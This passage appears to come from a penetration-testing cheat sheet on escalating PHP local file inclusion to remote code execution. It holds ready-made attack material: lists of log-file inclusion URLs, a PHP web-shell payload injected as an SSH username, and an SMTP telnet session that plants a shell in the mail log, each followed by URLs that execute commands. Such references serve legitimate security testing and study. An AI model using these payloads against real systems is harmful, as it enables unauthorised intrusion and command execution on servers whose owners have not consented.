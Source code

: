 ## LFI to RCE via phpinfo()
https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf Use the script phpInfoLFI.py (also available at https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

## LFI to RCE via a controlled log file

Just append your PHP code into the log file by doing a request to the service (Apache, SSH..) and include the log file.

```
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```

## RCE via SSH

Try to ssh into the box with a PHP code as username ``` <?php system($_GET["cmd"]);?>. ```

``` 
ssh <?php system($_GET["cmd"]);?>@10.10.10.10 
```

Then include the SSH log files inside the Web Application.

```
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

## RCE via Mail

First send an email using the open SMTP then include the log file located at http://example.com/index.php?page=/var/log/mail.

```
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

